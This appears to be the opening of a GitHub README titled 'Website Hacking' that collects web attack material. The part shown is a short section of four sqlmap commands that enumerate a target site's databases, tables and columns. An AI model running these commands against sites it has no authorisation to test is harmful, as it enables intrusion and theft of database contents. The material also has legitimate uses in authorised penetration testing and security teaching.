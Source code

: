 # SQL Injection, Cross-Site Scripting, Payloads, Dorks, Commands & Lists []  Website Hacking © 2020 Collections
![Twitter URL](https://img.shields.io/twitter/url?label=Twitter&style=social&url=https%3A%2F%2Ftwitter%2Fxetaguridimitri)

# Default SQL Injection Commands

# sqlmap -u 'Website' --dbs

# sqlmap -u 'Website' -D name.db --tables

# sqlmap -u 'Website' -D name.db -T name.table --columns

# sqlmap -u 'Website' -D name.db -T name.table -C name.columns

<p align="center"><img src="https://img.shields.io/badge/SQL-Injection-critical"></p>
